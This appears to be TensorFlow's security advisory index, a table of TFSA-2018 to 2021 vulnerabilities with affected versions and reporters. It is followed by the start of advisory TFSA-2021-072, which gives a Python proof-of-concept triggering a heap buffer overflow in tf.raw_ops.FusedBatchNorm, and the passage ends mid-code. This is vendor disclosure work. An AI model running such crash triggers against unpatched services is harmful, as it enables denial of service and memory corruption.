| [TFSA-2021-077](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-077.md) | Division by zero in TFLite's implementation of `TransposeConv`                     | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-076](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-076.md) | Division by zero in TFLite's implementation of `GatherNd`                          | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-075](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-075.md) | Division by zero in TFLite's implementation of `SpaceToDepth`                      | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-074](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-074.md) | Division by zero in optimized pooling implementations in TFLite                    | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-073](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-073.md) | Division by zero in padding computation in TFLite                                  | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-072](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-072.md) | Heap buffer overflow and undefined behavior in `FusedBatchNorm`                    | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-071](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-071.md) | `CHECK`-fail due to integer overflow                                               | < 2.5.0             | University of Virginia and University of California, Santa Barbara  |
| [TFSA-2021-070](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-070.md) | Heap OOB read in `tf.raw_ops.Dequantize`                                           | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-069](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-069.md) | Segfault in `CTCBeamSearchDecoder`                                                 | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-068](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-068.md) | Heap buffer overflow in `MaxPoolGrad`                                              | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-067](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-067.md) | Heap buffer overflow in `FractionalAvgPoolGrad`                                    | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-066](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-066.md) | Undefined behavior and `CHECK`-fail in `FractionalMaxPoolGrad`                     | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-065](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-065.md) | Heap buffer overflow in `AvgPool3DGrad`                                            | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-064](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-064.md) | Heap buffer overflow in `MaxPool3DGradGrad`                                        | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-063](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-063.md) | Undefined behavior in `MaxPool3DGradGrad`                                          | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-062](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-062.md) | Division by 0 in `MaxPoolGradWithArgmax`                                           | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-061](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-061.md) | Overflow/denial of service in `tf.raw_ops.ReverseSequence`                         | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-060](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-060.md) | Reference binding to nullptr in `SdcaOptimizer`                                    | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-059](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-059.md) | Memory corruption in `DrawBoundingBoxesV2`                                         | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-058](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-058.md) | Heap out of bounds read in `RequantizationRange`                                   | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-057](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-057.md) | Heap out of bounds read in `MaxPoolGradWithArgmax`                                 | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-056](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-056.md) | Lack of validation in `SparseDenseCwiseMul`                                        | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-055](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-055.md) | Reference binding to null in `ParameterizedTruncatedNormal`                        | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-054](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-054.md) | Heap OOB access in `Dilation2DBackpropInput`                                       | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-053](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-053.md) | Null pointer dereference in `SparseFillEmptyRows`                                  | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-052](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-052.md) | Null pointer dereference in `EditDistance`                                         | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-051](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-051.md) | `CHECK`-fail in `tf.raw_ops.RFFT`                                                  | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-050](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-050.md) | `CHECK`-fail in `tf.raw_ops.IRFFT`                                                 | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-049](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-049.md) | `CHECK`-fail in `LoadAndRemapMatrix`                                               | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-048](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-048.md) | Heap buffer overflow in `RaggedTensorToTensor`                                     | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-047](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-047.md) | Heap OOB access in unicode ops                                                     | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-046](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-046.md) | Heap buffer overflow in `SparseSplit`                                              | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-045](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-045.md) | Division by 0 in `Reverse`                                                         | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-044](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-044.md) | Division by 0 in `SparseMatMul`                                                    | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-043](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-043.md) | Division by 0 in `FusedBatchNorm`                                                  | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-042](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-042.md) | Division by 0 in `DenseCountSparseOutput`                                          | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-041](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-041.md) | `CHECK`-failure in `UnsortedSegmentJoin`                                           | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-040](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-040.md) | Heap OOB in `QuantizeAndDequantizeV3`                                              | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-039](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-039.md) | OOB read in `MatrixTriangularSolve`                                                | < 2.5.0             | Ye Zhang and Yakun Zhang of Baidu X-Team                            |
| [TFSA-2021-038](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-038.md) | Division by 0 in `FractionalAvgPool`                                               | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-037](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-037.md) | Division by 0 in `QuantizedAdd`                                                    | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-036](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-036.md) | Division by 0 in `QuantizedBatchNormWithGlobalNormalization`                       | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-035](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-035.md) | Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`                  | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-034](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-034.md) | Division by 0 in `QuantizedBiasAdd`                                                | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-033](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-033.md) | Heap buffer overflow in `SparseTensorToCSRSparseMatrix`                            | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-032](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-032.md) | `CHECK`-fail in `CTCGreedyDecoder`                                                 | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-031](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-031.md) | `CHECK`-fail in `QuantizeAndDequantizeV4Grad`                                      | >= 2.4.0, < 2.5.0   | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-030](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-030.md) | Null pointer dereference in `StringNGrams`                                         | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-029](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-029.md) | Heap buffer overflow `StringNGrams`                                                | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-028](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-028.md) | Heap buffer overflow `Conv2DBackpropFilter`                                        | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-027](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-027.md) | Division by zero in `Conv2DBackpropFilter`                                         | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-026](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-026.md) | Heap buffer overflow in `QuantizedReshape`                                         | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-025](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-025.md) | Heap buffer overflow in `QuantizedResizeBilinear`                                  | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-024](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-024.md) | `CHECK`-fail in `SparseConcat`                                                     | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-023](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-023.md) | Heap buffer overflow in `QuantizedMul`                                             | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-022](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-022.md) | `CHECK`-fail in `DrawBoundingBoxes`                                                | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-021](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-021.md) | Heap out of bounds read in `RaggedCross`                                           | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-020](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-020.md) | `CHECK`-fail in `tf.raw_ops.EncodePng`                                             | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-019](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-019.md) | Heap buffer overflow caused by rounding                                            | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-018](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-018.md) | Invalid validation in `SparseMatrixSparseCholesky`                                 | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-017](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-017.md) | Division by 0 in `QuantizedMul`                                                    | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-016](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-016.md) | Division by 0 in `QuantizedConv2D`                                                 | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-015](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-015.md) | Division by 0 in `Conv2D`                                                          | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-014](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-014.md) | Division by 0 in `Conv2DBackpropInput`                                             | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-013](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-013.md) | Division by 0 in `Conv2DBackpropFilter`                                            | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-012](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-012.md) | `CHECK`-fail in `AddManySparseToTensorsMap`                                        | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-011](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-011.md) | Division by 0 in `Conv3DBackprop*`                                                 | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-010](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-010.md) | Heap buffer overflow in `Conv3DBackprop*`                                          | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-009](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-009.md) | Segfault in `SparseCountSparseOutput`                                              | >= 2.3.0, < 2.5.0   | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-008](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-008.md) | `CHECK`-fail in `SparseCross` due to type confusion                                | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-007](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-007.md) | Session operations in eager mode lead to null pointer dereferences                 | >= 2.0.0, < 2.5.0   | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-006](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-006.md) | Division by zero in `Conv3D`                                                       | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-005](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-005.md) | Null pointer dereference via invalid Ragged Tensors                                | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-004](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-004.md) | Reference binding to null pointer in `MatrixDiag*` ops                             | < 2.5.0             | Ye Zhang and Yakun Zhang of Baidu X-Team                            |
| [TFSA-2021-003](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-003.md) | Type confusion during tensor casts lead to dereferencing null pointers             | < 2.5.0             | Aivul Team from Qihoo 360; Ye Zhang and Yakun Zhang of Baidu X-Team |
| [TFSA-2021-002](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-002.md) | Heap out of bounds write in `RaggedBinCount`                                       | >= 2.3.0, < 2.5.0   | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-001](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-001.md) | Heap buffer overflow in `RaggedBinCount`                                           | >= 2.3.0, < 2.5.0   | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-034](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-034.md) | Heap out of bounds access in MakeEdge                                              | >= 1.15.0, <= 2.3.0 | (discovered internally)                                             |
| [TFSA-2020-033](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-033.md) | CHECK-fail in LSTM with zero-length input                                          | >= 1.15.0, <= 2.3.0 | (discovered internally)                                             |
| [TFSA-2020-032](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-032.md) | Heap out of bounds read in filesystem glob matching                                | 2.4.0-rc{0,1,2,3}   | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-031](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-031.md) | Write to immutable memory region                                                   | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-030](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-030.md) | Lack of validation in data format attributes                                       | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-029](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-029.md) | Uninitialized memory access in Eigen types                                         | >= 1.15.0, <= 2.3.0 | (discovered internally)                                             |
| [TFSA-2020-028](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-028.md) | Float cast overflow undefined behavior                                             | <= 2.3              | (Reported on GitHub)                                                | [issue report](https://github.com/tensorflow/tensorflow/issues/42129)
| [TFSA-2020-027](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-027.md) | Segfault in `tf.quantization.quantize_and_dequantize`                              | <= 2.3              | (Reported on GitHub)                                                | [issue report](https://github.com/tensorflow/tensorflow/issues/42105)
| [TFSA-2020-026](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-026.md) | Segfault in `tf.raw_ops.Switch` in eager mode                                      | 2.2.0, 2.3.0        | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-025](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-025.md) | Undefined behavior in `dlpack.to_dlpack`                                           | 2.2.0, 2.3.0        | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-024](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-024.md) | Memory leak in `dlpack.to_dlpack`                                                  | 2.2.0, 2.3.0        | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-023](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-023.md) | Memory corruption in `dlpack.to_dlpack`                                            | 2.2.0, 2.3.0        | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-022](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-022.md) | Crash due to invalid shape of `grad_values` in SparseFillEmptyRowsGrad             | >= 1.15.0, <= 2.3.0 | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-021](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-021.md) | Heap buffer overflow in SparseFillEmptyRowsGrad                                    | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-020](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-020.md) | Heap buffer overflow in weighted sparse count ops                                  | 2.3.0               | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-019](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-019.md) | Crash due to invalid splits in SparseCountSparseOutput                             | 2.3.0               | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-018](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-018.md) | Heap buffer overflow due to invalid indices in SparseCountSparseOutput             | 2.3.0               | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-017](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-017.md) | Abort due to invalid splits in RaggedCountSparseOutput                             | 2.3.0               | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-016](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-016.md) | Segfault due to invalid splits in RaggedCountSparseOutput                          | 2.3.0               | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-015](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md) | Heap buffer overflow due to invalid splits in RaggedCountSparseOutput              | 2.3.0               | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-014](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-014.md) | Integer truncation in Shard API usage                                              | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-013](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-013.md) | Format-string vulnerability in TensorFlow's `as_string`                            | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-012](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-012.md) | Segfault by calling session-only ops in eager mode                                 | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-011](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-011.md) | Data leak in `tf.raw_ops.StringNGrams`                                             | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-010](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-010.md) | Incomplete validation in TensorFlow's SavedModel's constant nodes causes segfaults | >= 1.15.0, <= 2.3.0 | Shuaike Dong, Alipay Tian Qian Security Lab                         | [issue report](https://github.com/tensorflow/tensorflow/issues/41097)
| [TFSA-2020-009](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-009.md) | Segfault and data corruption caused by negative indexing in TFLite                 | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-008](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-008.md) | Data corruption due to dimension mismatch in TFLite                                | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-007](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-007.md) | Null pointer dereference in TFLite                                                 | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360, variant analysis                         |
| [TFSA-2020-006](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-006.md) | Segmentation fault and/or data corruption due to invalid TFLite model              | >= 1.15.0, <= 2.3.0 | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-005](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-005.md) | Out of bounds access in TFLite operators                                           | >= 1.15.0, <= 2.3.0 | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-004](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-004.md) | Out of bounds access in TFLite implementation of segment sum                       | 2.2.0, 2.3.0        | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-003](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-003.md) | Denial of service from TFLite implementation of segment sum                        | 2.2.0, 2.3.0        | (variant analysis, Aivul Team from Qihoo 360)                       |
| [TFSA-2020-002](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-002.md) | Out of bounds write in TFLite implementation of segment sum                        | 2.2.0, 2.3.0        | Aivul Team from Qihoo 360                                           |
| [TFSA-2020-001](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-001.md) | Segmentation fault when converting a Python string to `tf.float16`                 | >= 1.12.0, <= 2.1   | (found internally)                                                  |
| [TFSA-2019-002](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2019-002.md) | Heap buffer overflow in `UnsortedSegmentSum`                                       | <= 1.14             | (found internally)                                                  |
| [TFSA-2019-001](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2019-001.md) | Null Pointer Dereference Error in Decoding GIF Files                               | <= 1.12             | Baidu Security Lab                                                  |
| [TFSA-2018-006](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-006.md) | Crafted Configuration File results in Invalid Memory Access                        | <= 1.7              | Blade Team of Tencent                                               |
| [TFSA-2018-005](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-005.md) | Old Snappy Library Usage Resulting in Memcpy Parameter Overlap                     | <= 1.7              | Blade Team of Tencent                                               |
| [TFSA-2018-004](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-004.md) | Checkpoint Meta File Out-of-Bounds Read                                            | <= 1.7              | Blade Team of Tencent                                               |
| [TFSA-2018-003](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-003.md) | TensorFlow Lite TOCO FlatBuffer Parsing Vulnerability                              | <= 1.7              | Blade Team of Tencent                                               |
| [TFSA-2018-002](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-002.md) | GIF File Parsing Null Pointer Dereference Error                                    | <= 1.5              | Blade Team of Tencent                                               |
| [TFSA-2018-001](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2018-001.md) | BMP File Parser Out-of-bounds Read                                                 | <= 1.6              | Blade Team of Tencent                                               |
| -                                                                                                                   | Out Of Bounds Read                                                                 | <= 1.4              | Blade Team of Tencent                                               | [issue report](https://github.com/tensorflow/tensorflow/issues/14959)
## TFSA-2021-072: Heap buffer overflow and undefined behavior in `FusedBatchNorm`

### CVE Number
CVE-2021-29583

### Impact
The implementation of `tf.raw_ops.FusedBatchNorm` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

x = tf.zeros([10, 10, 10, 6], dtype=tf.float32)
scale = tf.constant([0.0], shape=[1], dtype=tf.float32)
offset = tf.constant([0.0], shape=[1], dtype=tf.float32)
mean = tf.constant([0.0], shape=[1], dtype=tf.float32)
variance = tf.constant([0.0], shape=[1], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

If the tensors are empty, the same implementation can trigger undefined behavior
by dereferencing null pointers:

```python
import tensorflow as tf
import numpy as np

x = tf.zeros([10, 10, 10, 1], dtype=tf.float32)
